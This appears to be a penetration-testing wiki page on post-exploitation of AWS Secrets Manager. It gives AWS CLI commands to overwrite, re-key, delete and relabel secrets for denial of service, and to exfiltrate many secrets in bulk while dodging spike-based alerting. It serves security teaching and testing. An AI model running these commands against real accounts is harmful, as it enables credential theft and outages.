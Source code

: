 # AWS - Secrets Manager Post Exploitation

{{#include ../../../banners/hacktricks-training.md}}

## Secrets Manager

For more information check:

{{#ref}}
../aws-services/aws-secrets-manager-enum.md
{{#endref}}

### Read Secrets

The **secrets themself are sensitive information**, [check the privesc page](../aws-privilege-escalation/aws-secrets-manager-privesc.md) to learn how to read them.

### DoS Change Secret Value

Changing the value of the secret you could **DoS all the system that depends on that value.**

> [!WARNING]
> Note that previous values are also stored, so it's easy to just go back to the previous value.

```bash
# Requires permission secretsmanager:PutSecretValue
aws secretsmanager put-secret-value \
    --secret-id MyTestSecret \
    --secret-string "{\"user\":\"diegor\",\"password\":\"EXAMPLE-PASSWORD\"}"
```

### DoS Change KMS key

If the attacker has the secretsmanager:UpdateSecret permission, they can configure the secret to use a KMS key owned by the attacker. That key is initially set up in such a way that anyone can access and use it, so updating the secret with the new key is possible. If the key was not accessible, the secret could not be updated.

After changing the key for the secret, the attacker modifies the configuration of their key so that only they can access it. This way, in the subsequent versions of the secret, it will be encrypted with the new key, and since there is no access to it, the ability to retrieve the secret would be lost.

It is important to note that this inaccessibility will only occur in later versions, after the content of the secret changes, since the current version is still encrypted with the original KMS key.

```bash
aws secretsmanager update-secret \
    --secret-id MyTestSecret \
    --kms-key-id arn:aws:kms:us-west-2:123456789012:key/EXAMPLE1-90ab-cdef-fedc-ba987EXAMPLE
```

### DoS Deleting Secret

The minimum number of days to delete a secret are 7

```bash
aws secretsmanager delete-secret \
    --secret-id MyTestSecret \
    --recovery-window-in-days 7
```

## secretsmanager:RestoreSecret

It is possible to restore a secret, which allows the restoration of secrets that have been scheduled for deletion, since the minimum deletion period for secrets is 7 days and the maximum is 30 days. Together with the secretsmanager:GetSecretValue permission, this makes it possible to retrieve their contents.

To recover a secret that is in the process of being deleted, you can use the following command:
```bash
aws secretsmanager restore-secret \
  --secret-id <Secret_Name>
```

## secretsmanager:DeleteResourcePolicy

This action allows deleting the resource policy that controls who can access a secret. This could lead to a DoS if the resource policy was configured to allow access to a specific set of users.

To delete the resource policy:
```bash
aws secretsmanager delete-resource-policy \
  --secret-id <Secret_Name>
```

## secretsmanager:UpdateSecretVersionStage

The states of a secret are used to manage versions of a secret. AWSCURRENT marks the active version that applications use, AWSPREVIOUS keeps the previous version so that you can roll back if necessary, and AWSPENDING is used in the rotation process to prepare and validate a new version before making it the current one.

Applications always read the version with AWSCURRENT. If someone moves that label to the wrong version, the apps will use invalid credentials and may fail.

AWSPREVIOUS is not used automatically. However, if AWSCURRENT is removed or reassigned incorrectly, it may appear that everything is still running with the previous version.

```bash
aws secretsmanager update-secret-version-stage \
  --secret-id <your-secret-name-or-arn> \
  --version-stage AWSCURRENT \
  --move-to-version-id <target-version-id> \
  --remove-from-version-id <previous-version-id>
```

{{#include ../../../banners/hacktricks-training.md}}





### Mass Secret Exfiltration via BatchGetSecretValue (up to 20 per call)

Abuse the Secrets Manager BatchGetSecretValue API to retrieve up to 20 secrets in a single request. This can dramatically reduce API-call volume compared to iterating GetSecretValue per secret. If filters are used (tags/name), ListSecrets permission is also required. CloudTrail still records one GetSecretValue event per secret retrieved in the batch.

Required permissions
- secretsmanager:BatchGetSecretValue
- secretsmanager:GetSecretValue for each target secret
- secretsmanager:ListSecrets if using --filters
- kms:Decrypt on the CMKs used by the secrets (if not using aws/secretsmanager)

> [!WARNING]
> Note that the permission `secretsmanager:BatchGetSecretValue` is not included enough to retrieve secrets, you also need `secretsmanager:GetSecretValue` for each secret you want to retrieve.

Exfiltrate by explicit list
```bash
aws secretsmanager batch-get-secret-value \
  --secret-id-list <secret1> <secret2> <secret3> \
  --query 'SecretValues[].{Name:Name,Version:VersionId,Val:SecretString}'
```

Exfiltrate by filters (tag key/value or name prefix)
```bash
# By tag key
aws secretsmanager batch-get-secret-value \
  --filters Key=tag-key,Values=env \
  --max-results 20 \
  --query 'SecretValues[].{Name:Name,Val:SecretString}'

# By tag value
aws secretsmanager batch-get-secret-value \
  --filters Key=tag-value,Values=prod \
  --max-results 20

# By name prefix
aws secretsmanager batch-get-secret-value \
  --filters Key=name,Values=MyApp
```

Handling partial failures
```bash
# Inspect the Errors list for AccessDenied/NotFound and retry/adjust filters
aws secretsmanager batch-get-secret-value --secret-id-list <id1> <id2> <id3>
```

Impact
- Rapid “smash-and-grab” of many secrets with fewer API calls, potentially bypassing alerting tuned to spikes of GetSecretValue.
- CloudTrail logs still include one GetSecretValue event per secret retrieved by the batch.
